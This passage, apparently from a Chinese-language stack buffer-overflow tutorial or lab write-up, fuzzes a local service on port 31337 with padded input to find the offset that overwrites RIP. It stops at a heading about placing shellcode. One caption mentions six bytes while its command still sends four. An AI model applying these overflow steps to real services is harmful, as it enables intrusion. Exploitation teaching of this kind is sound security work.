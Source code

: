 112个A+8个B+4个C。RIP地址可以被4个C覆盖

```plain
echo $(python2 -c 'print "A" * 112 + "B" * 8 + "C" * 4') | nc localhost 31337
```

[![](assets/1703831476-adc01b06dc13962497773cfe25fa0532.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231227224831-0122a8a0-a4c7-1.png)

112个A+8个B+6个C，程序崩溃。RIP地址最多可以被4个C覆盖

```plain
echo $(python2 -c 'print "A" * 112 + "B" * 8 + "C" * 4') | nc localhost 31337
```

[![](assets/1703831476-b6beb58dc5fb818bb48cefd31f65aa18.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231227224838-051a3b44-a4c7-1.png)

从结果中可以知道：

1.  栈能存112
2.  填充满RBP需要+8个字符
3.  120个，没有影响到返回地址。覆盖rip寄存器需要在120处开始，且最多只能覆盖4个字节

#### 3.5 shellcode位置分析
